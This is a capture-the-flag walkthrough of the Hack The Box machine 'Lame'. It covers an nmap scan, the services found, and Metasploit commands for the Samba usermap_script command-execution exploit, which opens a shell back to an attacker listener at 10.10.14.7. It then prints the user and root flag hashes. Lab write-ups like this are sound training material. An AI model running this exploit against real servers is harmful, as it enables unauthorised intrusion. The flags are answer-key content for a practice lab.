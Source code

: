 # Lame

## 1. Overview

### 1.1. Attacks

* Samba

### 1.2. Tools used

**Enumeration** &rarr; `nmap`.

**Exploitation** &rarr; `msf`.

## 2. Walkthrough

### 2.1. Enumeration

#### 2.1.1. nmap
Search with `nmap`:

```bash
nmap -A -p- -T4 10.10.10.3
```

##### 2.1.1.1. Ports

![Lame Ports](_v_images/20201003212147744_9896.png)

* **Port: 21 (ftp)** &rarr; vsftpd 2.3.4
* **Port: 22 (ssh)** &rarr; Open SSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
* **Port: 139 (netbios-ssn)** &rarr; Samba smbd 3.X - 4.X
* **Port: 445 (netbios-ssn)** &rarr; Samba smbd 3.0.20-Debian
* **Port: 3632 (distccd)** &rarr; distccd v1

##### 2.1.1.2. Host Details

![Lame Host Details](_v_images/20201003212552432_15255.png)
![Lame Host Script Results](_v_images/20201003212621286_30855.png)

* **OS** &rarr; Linux 2.6.30 / Unix (Samba 3.0.20-Debian)
* **Computer name** &rarr; Lame
* **Smb-Security-Mode**
    * **Message_Signing** &rarr; disabled

Samba looks exploitable.

### 2.2. Exploitation

#### 2.2.1. Sources

**Google:** `samba Unix (Samba 3.0.20-Debian) exploit`

[[Rapid7] Samba "username map script" Command Execution ](https://www.rapid7.com/db/modules/exploit/multi/samba/usermap_script)

#### 2.2.2. Metasploit

```msf
msf5 > use exploit/multi/samba/usermap_script
msf5 exploit(multi/samba/usermap_script) > set RHOSTS 10.10.10.3
RHOSTS => 10.10.10.3
msf5 exploit(multi/samba/usermap_script) > set LHOST 10.10.14.7
LHOST => 10.10.14.7
msf5 exploit(multi/samba/usermap_script) > run
```

```bash
cat root/root.txt
92caac3be140ef409e45721348a4e9df

cat home/makis/user.txt
69454a937d94f5f0225ea00acd2e84c5
```

* **Own User** &rarr; `69454a937d94f5f0225ea00acd2e84c5`
* **Own Root** &rarr; `92caac3be140ef409e45721348a4e9df`